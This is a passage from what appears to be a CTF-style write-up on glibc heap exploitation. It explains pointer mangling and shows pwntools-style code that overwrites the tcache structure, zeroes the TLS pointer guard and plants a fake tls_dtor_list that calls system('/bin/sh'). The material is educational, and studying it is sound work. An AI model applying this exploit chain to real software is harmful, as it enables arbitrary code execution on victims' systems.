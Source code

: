 ```c
}
```



`PTR_MANGLE()` works by XORing the pointer with a 64bit secret thread data (`fs:0x30`), then performing a bitwise left rotation of 0x11 bits (on x86-64). `PTR_DEMANGLE()` is the reverse. 

That secret value is store in Thread Local Storage (namely `pointer_guard`, below `canary`) and its address can be calculated from libc base too. If you can overwrite the pointer guard value to 0, so the mangle will be just ROL(0x11)

Therefore, we control `tcache_perthread_struct` to point entries of 2 sizes to `tls_dtor_list` and `pointer_guard` to bypass `PTR_DEMANGLE()` and point `tls_dtor_list` to a crafted `dtor_list` with function attribute can be `system` or `execve` 

```python
edit(0, 0x78, p16(1)*(0x70//2))     # overwrite tcache->counts
edit(1, 0x78, p64(tls_dtor_list) + p64(pointer_guard) + p64(rol(lib.sym['system'], 0x11, 64)) + p64(binsh))    # overwrite tcache->entries

edit(7, 0x20, p64(0))   # overwrite pointer_guard
edit(8, 0x18, p64(0) + p64(fake_dtor_list))  # point to fake dtor_list 
```


